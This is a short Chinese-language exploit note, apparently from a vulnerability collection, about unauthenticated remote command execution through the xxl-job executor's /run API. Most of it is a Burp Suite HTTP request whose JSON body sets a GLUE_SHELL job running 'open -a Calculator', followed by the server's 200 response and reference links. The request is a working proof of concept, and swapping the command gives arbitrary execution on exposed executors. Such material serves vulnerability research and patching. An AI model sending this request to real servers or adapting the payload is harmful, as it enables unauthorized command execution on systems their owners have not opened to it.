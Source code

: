# xxl-job 执行器 RESTful API 未授权访问 RCE


![](04.png)

![](01.png)
![](02.png)
![](03.png)
![](05.png)

## Burpsuite

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Content-Length: 365
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "open -a Calculator",
  "glueUpdatetime": 1586629003727,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

```
HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 12

{"code":200}
```


## 参考链接

https://landgrey.me/blog/18/
https://www.xuxueli.com/xxl-job/
